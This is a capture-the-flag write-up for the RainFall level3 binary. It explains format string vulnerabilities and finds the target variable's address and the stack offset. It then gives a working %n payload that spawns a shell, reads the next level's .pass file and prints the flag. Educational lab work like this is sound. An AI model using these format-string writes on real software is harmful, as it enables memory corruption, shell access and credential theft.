

# level3

```sh
➜  ~ ssh level3@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level3@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$
```

Now the ritual was not necessary yet, I noticed that at each level there is only one file, the binary to exploit.

_Now, we can start the good habits_

```sh
level3@RainFall:~$ ./level3
This is my peak
This is my peak
level3@RainFall:~$ ./level3 "Mihawk > Zoro"
Nika
Nika
level3@RainFall:~$
```

The binary is a simple program that takes an argument and prints it twice, a `buffer overflow attack` again ? Let's decompile it, but not with `ghidra`, with [Decompiler Explorer](https://dogbolt.org/). It's faster, easier to use and a lot of decompiler are available. The available decompiler `hex-rays` give more info : globals variables for exemple. But `ghidra` is more clean for better understanding.

And same for getting the file from the VM to my machine, I will not say it again, by default I get the file with `scp`.

For now, I show explicitly what decompiler I use.

_What's inside this binary ?_<



- The `main` function just call the `v` function.
- The `v` function open the standard input, use the `printf` function to prit the input and return `result` if the global variable integer `m` is different from `64`.

**The objectif here is to make sure we can pass the condition `if (m == 64)` for running a `shell`**

# Vulnerability: <u>Format String Attack</u>

The exploit here is with the `printf` function. If you ever try to compile without the flag `-Werror` a `C` file using `printf` and a `string` as argument without using the string format.

Look this code :

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv) {
	if (argc < 2) {
		write(1, "More than one argument.", 23);
		return (1);
	}

	char *string = argv[1];

	printf(string);

	return (0);
}
```

And this `warning` appears when you compile it with `gcc` :

```sh
no_protect_printf.c:13:9: warning: format string is not a string literal (potentially insecure) [-Wformat-security]
   13 |         printf(string);
      |                ^~~~~~
no_protect_printf.c:13:9: note: treat the string as an argument to avoid this
   13 |         printf(string);
      |                ^
      |                "%s",
```

**"`potentially insecure`"**

### What if I want to print the string `%p` ?

```sh
➜  ~ ./no_protect_printf %p
0x16f87b300%
➜  ~
```

_It print a... random address ?_

```sh
➜  ~ ./no_protect_printf "AAAA %p"
AAAA 0x16fb4f2f0%
➜  ~
```

_It print alreadry the first "real" string, what happens ?_

**Why this use of `printf` is insecure ?**

The `printf` function is a `variadic` function, it takes a `format` string and a `variable` number of arguments. The `format` string is used to format the output, it can contain `conversion specifiers` that are replaced by the values of the arguments. The `conversion specifiers` are introduced by a `%` and followed by a `character` that indicates the type of the argument.

1. **Reading in memory with `%x` or `%p` (Arbitrary Read)** : Format specifiers such as `%p`, `%x`, `%s`, or `%n` allow **reading data from memory**. For example, `%x` can print stack values, and `%s` can print a string from a specific address. If a malicious user controls the argument passed to `printf`, they can **read portions of the program's memory that are not supposed to be accessible**.

2. **Writing in memory with `%n` (Arbitrary Write)**: The format specifier `%n` is particularly dangerous. It allows **storing the number of characters printed up to that point in a memory address specified by the next argument**. This means an attacker can modify memory, including potentially critical variables or function pointers, which can lead to **arbitrary code execution**.

## _Okay, now we know the vulnerability, but how to Format String Attack ? Return to our binary, and let's go step by step._

1. **<u>Finding the address of `m`</u>** : We need to find the address of the global variable `m` to overwrite it the number `64`.
2. **<u>Finding the padding</u>** : We need to find the padding between the address of the buffer and the address of `m`.
3. **<u>Constructing the payload (overwriting `m`)</u>**: The payload must follow this format -> `address of m + padding string + overwrite value`. The `overwrite value` is `64` in this case. We will see how to achieve this by following a few steps.
4. **<u>The final payload</u>** : Briefing of the final payload to exploit the program.

## 1. Finding the address of `m`

Simply, by using the `objdump` command, go to the `v` function and we can deduce the address of the global variable `m`.

```sh
080484a4 <v>:
 80484a4:    55                       push   %ebp
 80484a5:    89 e5                    mov    %esp,%ebp
 80484a7:    81 ec 18 02 00 00        sub    $0x218,%esp
 80484ad:    a1 60 98 04 08           mov    0x8049860,%eax
 80484b2:    89 44 24 08              mov    %eax,0x8(%esp)
 80484b6:    c7 44 24 04 00 02 00     movl   $0x200,0x4(%esp)
 80484bd:    00 
 80484be:    8d 85 f8 fd ff ff        lea    -0x208(%ebp),%eax
 80484c4:    89 04 24                 mov    %eax,(%esp)
 80484c7:    e8 d4 fe ff ff           call   80483a0 <fgets@plt>
 80484cc:    8d 85 f8 fd ff ff        lea    -0x208(%ebp),%eax
 80484d2:    89 04 24                 mov    %eax,(%esp)
 80484d5:    e8 b6 fe ff ff           call   8048390 <printf@plt>
 80484da:    a1 8c 98 04 08           mov    0x804988c,%eax
 80484df:    83 f8 40                 cmp    $0x40,%eax
 80484e2:    75 34                    jne    8048518 <v+0x74>
 80484e4:    a1 80 98 04 08           mov    0x8049880,%eax
 80484e9:    89 c2                    mov    %eax,%edx
 80484eb:    b8 00 86 04 08           mov    $0x8048600,%eax
 80484f0:    89 54 24 0c              mov    %edx,0xc(%esp)
 80484f4:    c7 44 24 08 0c 00 00     movl   $0xc,0x8(%esp)
 80484fb:    00 
 80484fc:    c7 44 24 04 01 00 00     movl   $0x1,0x4(%esp)
 8048503:    00 
 8048504:    89 04 24                 mov    %eax,(%esp)
 8048507:    e8 a4 fe ff ff           call   80483b0 <fwrite@plt>
 804850c:    c7 04 24 0d 86 04 08     movl   $0x804860d,(%esp)
 8048513:    e8 a8 fe ff ff           call   80483c0 <system@plt>
 8048518:    c9                       leave  
 8048519:    c3                       ret    
level3@RainFall:~$ 
```

- The line of `80484da` attribute the value of `m` to the register `eax`.
- The line of `80484df` compare the value of `eax` with `64`.

```sh
(gdb) x/s 0x804988c
0x804988c <m>:     ""
(gdb) 
```

### _We have the address of `m` : `0x804988c` ! ✅_

## 2. Finding the padding

There is one more thing I havn't talked about yet. When we passed the string `%p` to the program, it printed supposed random address, but it's not random : **for each address `%p` we pass, it print the top of stack**. So, we can find the address of the buffer by passing multiple `%p` to the program and located the position of the buffer in the stack. (If you don't understand don't worry, I will explain it more later, it's important) 

We proceed as follows :
- We pass a string of 4 characters, it will be stocked in the buffer in `32 bit`. We pass `AAAA` for easily find the address of the buffer, it will be `0x41414141`.
- We pass severeal `%p` to print the top of stack, the address of the buffer will must be printed.

```sh
level3@RainFall:~$ ./level3 
AAAA %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025
level3@RainFall:~$ 
```

We can see the address `0x41414141` is the address of our buffer (`A` is `0x41` in `ASCII`) : **the buffer is at the 4th position of the stack**.

Here's a schema to understand the stack :

```lua
<high address>
+-------------------------+  
| 0x25207025              |  <-- 6th value printed (Stack data)  
+-------------------------+  
| 0x20702520              |  <-- 5th value printed (Stack data)  
+-------------------------+  
| 0x41414141 ("AAAA")     |  <-- 4th value printed (Buffer, the string "AAAA")  
+-------------------------+  
| 0xb7ff37d0              |  <-- 3rd value printed (Stack data)  
+-------------------------+  
| 0xb7fd1ac0              |  <-- 2nd value printed (Stack data)  
+-------------------------+  
| 0x200                   |  <-- 1st value printed (Stack data)  
+-------------------------+  
<low address>
```

All we need to know is our `buffer` is at the 4th position of the stack, the other "junks" address ar not important.

### _We have the padding : `4` ! ✅_

_But I don't understand how we can exoloit these informations ?_

## 3. Constructing the payload (overwriting in `m`)

First of all, `m` must be stocked in the buffer. **Why** ? Because we are able to access to its address, previously we found the address of the buffer is at the 4th position when we print the stack with `%p`.

We can start the construction of the payload by starting like this :

```sh
python -c 'print "\x8c\x98\x04\x08"'; cat
```

By doing this, we ALREADY know the address of `m` will be access at the 4th position of the stack.

**How overwrite `m` with the value `64` ?**

### It's time to introduce the format string `%n`

- The `%n` format specifier is used to write the number of characters printed so far to a variable. It is used like this : `printf("%n", &variable);` The `variable` stocked the number of characters are printed, here `0`. The number of characters printed so far is stored in the variable.

- With all format string, we ca passed a number followed by a dollar sign `$` and the format string we want to use. This allows us to specify the argument number to use for the format string. For example, `%2$d` will use the second argument passed to `printf` as an integer.

**Where's the other arguments if in the [code (line 11)](https://github.com/Nimpoo/rainfall/blob/main/level3/source), `printf` is only used for a `local_20c` ?**

- `printf` is a variadic function, it takes a variable number of arguments. We "invented" the other arguments :

if we have this code :

```c
char vuln[100] = "%p";
printf(vuln);
```

When you use `%p` in a format string, it prints the memory address of the argument. However, if the argument is missing or not passed to the function, it will print an address from the top of the stack, which might not be meaningful or expected. **And these address from the stack ARE the other arguments**.

### _Did you see where I want to go ?_

If we <u>pass `m` to the buffer</u>, then a random string of <u>`64` characters</u> and FINALLY write the <u>number of characters printed to the 4th argument</u>...

```sh
python -c 'print "\x8c\x98\x04\x08" + "A" * 64 + "%4$n"'; cat
```

In theorie, the global variable `m` will be overwritten with the value `64`, and passed the condition.

### _We have the payload ! ✅ Now let's try it if it works..._

## 4. The final payload

If we decompose our payload :
- **The address of `m`** : `\x8c\x98\x04\x08`, we need to overwrite this variable with the value `64`.
- **The padding** : A string of `64` characters.
- **The `%n` format specifier** : `%4$n`, it will write the number of characters printed so far to the 4th argument -> the 4th position on the stack, the position where the buffer is stocked in this programm.

_Sooo... Please work !_

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 64 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
whoami
level3@RainFall:~$ 
```

## _WHAT_

_Oh okay I see..._

As you can see it doesn't works, because we passing the value `68` to `m`, the `64` characters plus the 4 characters of the address of `m`. We need to pass the value `64` to `m`, so we pass `60` characters.

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"'; cat) | ./level3 
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ 
```

# LEZZZZGOOOOOOOOOOOOO

We have the flag ! Let's do the final step to go the next level.

```sh
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$ 
```

# level3 complet !

